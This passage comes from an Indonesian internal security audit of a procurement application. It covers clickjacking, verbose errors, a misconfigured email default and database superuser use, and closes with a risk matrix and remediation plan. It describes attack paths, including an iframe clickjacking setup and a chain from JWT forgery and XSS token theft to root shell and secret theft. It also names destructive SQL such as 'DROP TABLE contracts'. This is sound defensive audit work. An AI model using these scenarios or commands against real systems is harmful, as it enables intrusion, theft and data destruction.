> **Skenario (Clickjacking)**: Attacker membuat halaman web yang menampilkan tombol "Klik untuk Hadiah".  
> Di baliknya, ada iframe transparan yang memuat KPC App.  
> Ketika user mengklik tombol "Hadiah", sebenarnya mereka mengklik tombol "Setuju Kontrak" di KPC App.  
> Tanpa `X-Frame-Options`, browser tidak memblokir ini.  
> **Persetujuan kontrak dibuat tanpa user menyadarinya.**

---

### Business Impact

| Dampak                          | Deskripsi                                                          |
| ------------------------------- | ------------------------------------------------------------------ |
| **XSS Amplification**           | Serangan script injection lebih mudah berhasil                     |
| **Clickjacking**                | Aksi bisnis sensitif (approval kontrak) bisa dilakukan tanpa sadar |
| **Audit Finding**               | Setiap tool security scanner akan menandai ini                     |
| **Browser Protection Disabled** | Perlindungan built-in browser tidak aktif                          |

---

### Diagram: Clickjacking Attack via Missing X-Frame-Options

```mermaid
flowchart TD
    ATK[Attacker buat website phishing] --> IFRAME[Embed KPC App dalam iframe transparan<br/>opacity: 0]
    IFRAME --> OVERLAY[Tampilkan tombol menarik di atas KPC App:<br/>Klik untuk menang hadiah!]

    USER[User yang sedang login di KPC App] --> VISIT[Buka website phishing]
    VISIT --> CLICK[User klik tombol hadiah]

    CLICK --> REALCLICK[Sebenarnya klik tombol di KPC App:<br/>Submit approval / Confirm contract]

    REALCLICK -->|Tanpa X-Frame-Options| SUCCESS[✅ Aksi di KPC App berhasil<br/>tanpa user menyadarinya]

    style IFRAME fill:#ff8800,color:#fff
    style SUCCESS fill:#ff4444,color:#fff
```

---

---

## MEDIUM-018

# 🟡 MEDIUM-018 — Pesan Error Terlalu Detail: Memberikan Informasi kepada Penyerang

---

### Penjelasan Sederhana

Ketika terjadi error, sistem seharusnya hanya memberitahu user bahwa "ada yang salah" — **bukan detail teknis tentang mengapa dan bagaimana**.

Saat ini, KPC App mengembalikan pesan error teknis yang detail, termasuk nama library internal, URL server Microsoft, dan detail sistem lainnya. Ini seperti resepsionis yang tidak hanya berkata "tidak bisa masuk" tapi juga menjelaskan detail sistem keamanan gedung kepada tamu yang mencurigakan.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko            | Penjelasan                                                            |
| -------------------------- | --------------------------------------------------------------------- |
| **Information Disclosure** | Attacker mendapat informasi tentang teknologi dan arsitektur internal |
| **Reconnaissance Aid**     | Membantu attacker memetakan sistem dengan lebih efisien               |
| **Library Disclosure**     | Nama library yang digunakan membantu attacker cari CVE yang relevan   |

---

### Risiko Konkret

- Error message mengandung `"ConnectTimeout: HTTPSConnectionPool(host='login.microsoftonline.com', port=443)"` → bocorkan bahwa sistem bergantung pada Microsoft dan timeout internal terjadi
- Error `"JWTError: Signature verification failed"` → bocorkan bahwa sistem menggunakan JWT dan library `python-jose`
- Stack trace Python di DEBUG mode → bocorkan struktur file dan direktori aplikasi

---

### Real-World Scenario

> **Skenario**: Attacker mengirimkan request autentikasi yang dimanipulasi untuk memicu error.  
> Response: `"Failed to decode access token: JWTDecodeError: Signature has expired (python-jose 3.3.0)"`  
> Dari sini attacker tahu: menggunakan JWT, library python-jose versi 3.3.0.  
> Attacker langsung cek CVE database → menemukan vulnerability di python-jose 3.3.0 → **membuat exploit yang tepat sasaran**.

---

### Business Impact

| Dampak                         | Deskripsi                                            |
| ------------------------------ | ---------------------------------------------------- |
| **Targeted Attack Enablement** | Informasi internal membantu attacker lebih efisien   |
| **Library Version Disclosure** | Membantu attacker cari exploit yang tepat            |
| **Architecture Exposure**      | Pemetaan sistem oleh attacker lebih cepat dan akurat |

---

### Diagram: Information Disclosure via Error Messages

```mermaid
flowchart TD
    ATK[Attacker kirim request manipulatif] --> ERR[API mengembalikan verbose error]

    ERR --> E1[token_exchange_failed:<br/>ConnectTimeout: HTTPSConnectionPool<br/>host=login.microsoftonline.com]

    ERR --> E2[token_decode_failed:<br/>JWTDecodeError: Signature has expired<br/>python-jose library info]

    ERR --> E3[DEBUG=True: Full Python traceback<br/>File paths dan module structure]

    E1 --> I1[Tahu: sistem bergantung Azure AD<br/>Tahu: konfigurasi timeout internal]
    E2 --> I2[Tahu: library JWT yang digunakan<br/>Tahu: versi library untuk cek CVE]
    E3 --> I3[Tahu: struktur direktori aplikasi<br/>Tahu: module names]

    I1 & I2 & I3 --> ATTACK[Serangan lebih terarah:<br/>Target library-specific CVE]

    style ERR fill:#ff8800,color:#fff
    style ATTACK fill:#ff4444,color:#fff
```

---

---

## MEDIUM-019

# 🟡 MEDIUM-019 — Email Default ke Server Development: Notifikasi Tidak Terkirim di Production

---

### Penjelasan Sederhana

Sistem email KPC App dikonfigurasi secara default untuk mengirim email ke **MailHog** — sebuah server email palsu yang digunakan untuk testing oleh developer. MailHog menangkap semua email tanpa benar-benar mengirimkannya ke siapapun.

Jika konfigurasi production lupa mengubah pengaturan ini, **semua email notifikasi menghilang diam-diam** — tidak ada error, tidak ada peringatan, email seolah-olah terkirim padahal tidak.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko         | Penjelasan                                                           |
| ----------------------- | -------------------------------------------------------------------- |
| **Operational Risk**    | Fitur bisnis kritikal (notifikasi kontrak) diam-diam tidak berfungsi |
| **Business Continuity** | Approval workflow berhenti karena email tidak sampai                 |
| **Silent Failure**      | Tidak ada error yang muncul, sangat sulit terdeteksi                 |
| **User Trust**          | User percaya email sudah terkirim, tapi sebenarnya tidak             |

---

### Risiko Konkret

- Deployment production dengan konfigurasi salah → **semua notifikasi kontrak tidak terkirim** selama berhari-hari
- Procurement manager tidak mendapat notifikasi approval → **kontrak pending tanpa diproses**
- Vendor tidak mendapat notifikasi → **keterlambatan dalam proses pengadaan**
- Tim operasional tidak menyadari sampai ada keluhan dari user

---

### Real-World Scenario

> **Skenario**: KPC melakukan deployment baru pada Senin pagi. DevOps lupa set `USE_MAILHOG=false` di Cloud Run.  
> Selama seminggu penuh, semua email notifikasi (approval kontrak, reminder deadline, notifikasi invoice) **ditelan MailHog yang tidak aktif di production**.  
> Procurement manager menunggu approval dari direktur yang tidak pernah menerima email request.  
> Vendor menghubungi via telepon setelah seminggu karena tidak mendapat konfirmasi.  
> **Proses pengadaan terhenti selama seminggu** karena notifikasi tidak berfungsi.

---

### Business Impact

| Dampak                     | Deskripsi                                                       |
| -------------------------- | --------------------------------------------------------------- |
| **Procurement Delay**      | Proses pengadaan terhenti karena approval tidak bisa dilakukan  |
| **Vendor Relationship**    | Vendor tidak mendapat konfirmasi, berpotensi batalkan transaksi |
| **Operational Disruption** | Workflow yang bergantung email berhenti total                   |
| **Hidden Failure**         | Bisa berlangsung berhari-hari tanpa terdeteksi                  |

---

### Diagram: Silent Email Failure di Production

```mermaid
flowchart TD
    EVENT[Kontrak baru dibuat / Invoice diproses] --> EMAILFUNC[Email Service dipanggil]

    EMAILFUNC --> CHECK{USE_MAILHOG = ?}

    CHECK -->|False production| SMTP[Kirim via Office365 SMTP<br/>Email sampai ke penerima]
    CHECK -->|True default salah konfigurasi| MAILHOG[Kirim ke MailHog server<br/>MailHog tidak aktif di production]

    MAILHOG --> VOID[Email menghilang tanpa jejak]
    VOID --> NOLOG[Tidak ada error log<br/>Tidak ada alert]

    VOID --> IMPACT1[Procurement manager tidak dapat notifikasi approval]
    VOID --> IMPACT2[Vendor tidak dapat konfirmasi]
    VOID --> IMPACT3[Deadline terlewat tanpa ada yang tahu]

    style CHECK fill:#ff8800,color:#fff
    style VOID fill:#ff4444,color:#fff
    style NOLOG fill:#ff4444,color:#fff
```

---

---

## MEDIUM-020

# 🟡 MEDIUM-020 — Aplikasi Menggunakan Akun Database Super Administrator

---

### Penjelasan Sederhana

Untuk terhubung ke database, KPC App menggunakan akun `postgres` — yaitu **super admin database** yang memiliki kekuasaan penuh atas seluruh database: bisa buat, hapus, ubah semua tabel, bahkan bisa mengakses data yang tidak seharusnya.

Ini seperti memberikan **kunci master gedung beserta akses ke semua brankas, arsip, dan server room** kepada setiap karyawan yang perlu ke kantin — padahal mereka hanya butuh kunci kantin.

---

### Kenapa Perlu Diperbaiki

| Kategori Risiko      | Penjelasan                                                       |
| -------------------- | ---------------------------------------------------------------- |
| **Security Risk**    | SQL injection atau bug bisa dieksploitasi dengan dampak maksimal |
| **Blast Radius**     | Credentials yang bocor = akses penuh ke semua data               |
| **Compliance Risk**  | Melanggar prinsip least privilege (ISO 27001, CIS)               |
| **Operational Risk** | Bug di aplikasi bisa secara tidak sengaja menghapus tabel        |

---

### Risiko Konkret

- Jika ada SQL injection, attacker bisa: `DROP TABLE contracts`, `COPY TO FILE`, atau membaca semua tabel
- Jika `DATABASE_URL` bocor (via log, env dump), attacker punya **akses penuh ke seluruh database**
- Migrasi yang salah (Alembic) dengan akun superuser bisa menghapus data production secara permanen
- Tidak ada database-level access control — aplikasi bisa membaca tabel yang seharusnya tidak diakses

---

### Real-World Scenario

> **Skenario**: Seorang developer junior tidak sengaja menulis query Alembic migration yang menghapus tabel yang salah.  
> Karena migration berjalan dengan akun `postgres` (superuser), **perintah `DROP TABLE` berhasil dieksekusi** tanpa ada mekanisme pencegahan.  
> Tabel `user_activity_logs` (audit trail) terhapus permanen bersama seluruh riwayat aktivitas.  
> Tidak ada database permission yang bisa mencegah ini karena superuser melewati semua permission check.

---

### Business Impact

| Dampak                     | Deskripsi                                                         |
| -------------------------- | ----------------------------------------------------------------- |
| **Catastrophic Data Loss** | Bug atau serangan bisa menghapus data production permanen         |
| **Maximum Blast Radius**   | Credentials yang bocor memberikan akses ke seluruh database       |
| **Audit Trail Risk**       | Log audit dan data keuangan bisa dihapus oleh akun yang sama      |
| **Compliance Violation**   | Melanggar prinsip least privilege yang disyaratkan banyak standar |

---

### Diagram: Superuser vs Least Privilege

```mermaid
flowchart TD
    APP[KPC Application] -->|user=postgres superuser| DBCONN[Database Connection]

    DBCONN --> ALL[Akses: SEMUA tabel di SEMUA schema]
    DBCONN --> DDL[Bisa: DROP TABLE, ALTER, TRUNCATE]
    DBCONN --> PRIV[Bisa: CREATE/DROP USER, GRANT]
    DBCONN --> FILECOPY[Bisa: COPY TO FILE system access]

    subgraph IDEAL [Seharusnya: Least Privilege]
        APP2[KPC Application] -->|user=kpc_app_user| DBCONN2[Database Connection]
        DBCONN2 --> LIMITED[Hanya: SELECT, INSERT, UPDATE, DELETE]
        DBCONN2 --> TABLES[Hanya pada tabel yang diperlukan]
        DBCONN2 --> NOPRIVILEGE[TIDAK bisa: DDL, COPY, user management]
    end

    style ALL fill:#ff8800,color:#fff
    style DDL fill:#ff4444,color:#fff
    style PRIV fill:#ff4444,color:#fff
    style FILECOPY fill:#ff4444,color:#fff
```

---

---

# RINGKASAN EKSEKUTIF

## Matriks Risiko — Seluruh 23 Findings

```mermaid
quadrantChart
    title Risk Matrix — KPC App Security Findings
    x-axis "Kemudahan Eksploitasi" --> "Sangat Mudah"
    y-axis "Dampak Rendah" --> "Dampak Tinggi"

    quadrant-1 Prioritas Utama
    quadrant-2 Risiko Tinggi
    quadrant-3 Monitor
    quadrant-4 Perlu Perhatian

    HIGH-002 Token No Blacklist: [0.85, 0.90]
    HIGH-003 JWT localStorage: [0.80, 0.82]
    HIGH-005 WS No Auth: [0.90, 0.85]
    HIGH-011 JWT Empty Secret: [0.75, 0.88]
    HIGH-006 CORS Wildcard: [0.70, 0.80]
    HIGH-004 DB Pool Exhaustion: [0.65, 0.78]
    HIGH-013 GCS Public URL: [0.72, 0.76]
    HIGH-001 PKCE In-Memory: [0.60, 0.70]
    HIGH-012 Container Root: [0.45, 0.95]
    HIGH-014 No Config Validation: [0.55, 0.85]
    MEDIUM-007 Auto-Create User: [0.80, 0.60]
    MEDIUM-009 No Rate Limiting: [0.85, 0.55]
    MEDIUM-012 Swagger Public: [0.90, 0.45]
    MEDIUM-019 Mailhog Default: [0.40, 0.65]
    MEDIUM-015 File Upload: [0.70, 0.50]
    MEDIUM-016 WS Token URL: [0.65, 0.55]
    MEDIUM-018 Verbose Error: [0.80, 0.35]
    MEDIUM-013 Debug Log: [0.40, 0.60]
    MEDIUM-008 JWKS No Cache: [0.50, 0.58]
    MEDIUM-010 No Audit Log: [0.35, 0.65]
    MEDIUM-017 Missing Headers: [0.60, 0.45]
    MEDIUM-014 SA Key CICD: [0.30, 0.85]
    MEDIUM-020 DB Superuser: [0.35, 0.80]
```

---

## Attack Chain: Skenario Terburuk

Berikut adalah bagaimana beberapa finding dapat **digabungkan** oleh attacker untuk skenario dampak maksimal:

```mermaid
flowchart TD
    START[Attacker mulai reconnaissance] --> S1

    S1[MEDIUM-012: Buka /docs<br/>Pelajari semua endpoint] --> S2
    S2[MEDIUM-009: Brute force /auth/token<br/>Tanpa rate limit] --> S3
    S3[MEDIUM-011: Atau forge JWT<br/>Jika JWT_SECRET_KEY kosong] --> S4

    S4[HIGH-003: Atau steal token dari localStorage<br/>via XSS injection] --> S5

    S5[HIGH-002: Token tetap valid 24 jam<br/>Meskipun user logout] --> S6

    S6[HIGH-005: Akses /ws/jobs tanpa auth<br/>Dapatkan hasil AI processing] --> S7
    S6 --> S7B[HIGH-013: Akses dokumen di GCS<br/>via public URL]

    S7[MEDIUM-018: Trigger verbose error<br/>Dapatkan info library internal] --> S8
    S8[HIGH-012: Jika ada RCE via library CVE<br/>Dapatkan root shell di container] --> S9

    S9[Baca env vars: DB_URL, JWT_KEY, GCS_KEY] --> S10
    S10[Akses langsung ke semua data<br/>Database + Storage + AI Results]

    NODETECT[❌ MEDIUM-010: Tidak ada audit log<br/>Tidak ada yang tahu serangan ini terjadi]

    style START fill:#ff8800,color:#fff
    style S10 fill:#ff4444,color:#fff
    style NODETECT fill:#333,color:#fff
```

---

## Rekomendasi Prioritas Perbaikan

```mermaid
gantt
    title Roadmap Perbaikan — Estimasi Effort
    dateFormat  X
    axisFormat Minggu %s

    section Minggu 1 - Quick Wins GCP
    HIGH-006 Set CORS_ORIGINS env var       :done, 1, 2
    MEDIUM-013 Set CELERY_LOG_LEVEL=WARNING :done, 1, 2
    MEDIUM-019 Set USE_MAILHOG=false        :done, 1, 2
    MEDIUM-011 Set JWT_SECRET_KEY wajib     :done, 1, 2

    section Minggu 1-2 - Source Code Critical
    HIGH-005 Tambah auth di WS jobs         :active, 1, 3
    HIGH-012 Tambah USER di Dockerfile      :active, 1, 2
    MEDIUM-012 Disable Swagger di prod      :active, 2, 3

    section Minggu 2-3 - Service Security
    HIGH-002 Implement token blacklist      :3, 5
    HIGH-004 Fix DB connection pool         :3, 5
    MEDIUM-009 Tambah rate limiting         :3, 5
    MEDIUM-017 Tambah security headers      :3, 4

    section Minggu 3-4 - Infrastructure
    HIGH-001 Pindah PKCE state ke Redis     :4, 6
    HIGH-013 Fix GCS ke Signed URL          :4, 6
    MEDIUM-014 Migrasi ke Workload Identity :4, 7
    MEDIUM-020 Buat DB user least privilege :4, 6

    section Minggu 4+ - Long Term
    MEDIUM-010 Implement audit logging      :6, 9
    HIGH-003 BFF pattern untuk JWT          :6, 10
    HIGH-014 Startup config validation      :5, 7
    MEDIUM-016 Remove WS query param token  :5, 6
```

---

_Dokumen ini dibuat untuk keperluan internal audit dan presentasi stakeholder. Tidak untuk disebarluaskan di luar tim yang berwenang._

**Versi**: 1.0 | **Klasifikasi**: CONFIDENTIAL — Internal Use Only
